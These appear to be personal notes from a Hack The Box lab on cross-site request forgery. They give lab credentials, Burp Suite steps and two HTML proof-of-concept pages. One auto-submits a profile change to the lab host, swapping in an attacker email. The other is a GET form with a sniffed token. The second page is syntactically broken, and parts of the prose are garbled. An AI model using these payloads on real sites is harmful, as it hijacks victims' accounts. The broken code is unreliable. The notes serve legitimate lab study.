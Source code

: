 To sussucessfuly exploit a CSRF vulnerability, we need:
1. To craft a malicius web pages that will issue a valid [cross-site] request impresonating the victim.
2. The victim to be logged into the app at the time when the malicius cross-site request is issued.

- Cross-site request Forgery Example;
Email: crazygorilla983
Password: pisces
Run Burpsuite and activate the proxy, we notice no anti-CSRF token int the update-profile request. Try executing a CSRF attack against our account that will change her profile details by simply visiting
another web.

```html
<html>
  <body>
    <form id="submitMe" action="http://xss.htb.net/api/update-profile" method="POST">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>

```

We can serve the page above form our attack machine.
No need for a proxy at this time, so don't make ur browser go though Burpsuite. Restore the Original proxy setting. While still logged in as, open a new tab anf u servering form ur attacing machine
[http://VPN/TUN adapter:Port/notmalicius.html]

___

### Cross-site Request Forgery (Get-based)
Similar to how can we extract session cookies from apps that do not utilize SSL encryption, we can do CSRF Tokens included in unencrypted request.
Example:
Activate the burp on proxy and configure ur browser to go though it, click save.

The CSRF token is icluded in the Get request, simulate on the local that sniffed the abovementioned requested and wants to deface Julei Rogers profile through a CSRF attacks. They could have just performed a session Hijacking attack using the sniffed
session cookie.

CrSimilareate adn serve the below HTLM page and save as notmalicius_get.html.

```HTML
<html>
    <body>
        <form id= "submitME" action="http://....." method="GET">
            <input type="hidden" name="email" value="attacker@mail.com"/>
            <input type="hidden" name="telephone" value=""/>
            <input type="hidden" name="country" value="Cert"/>
            <input type="hidden" name="actione value="save"/>
            <input type="hidden" name="csrf" value="30e7912d04c957022a6d3072be8ef67e52eda8f2" /> <!--Sniffing value of the token-->
            <input type="submit" value="Submit request"/>

        <script>
            document.getElement("submitME")
        </script>
    </body>
</html>
```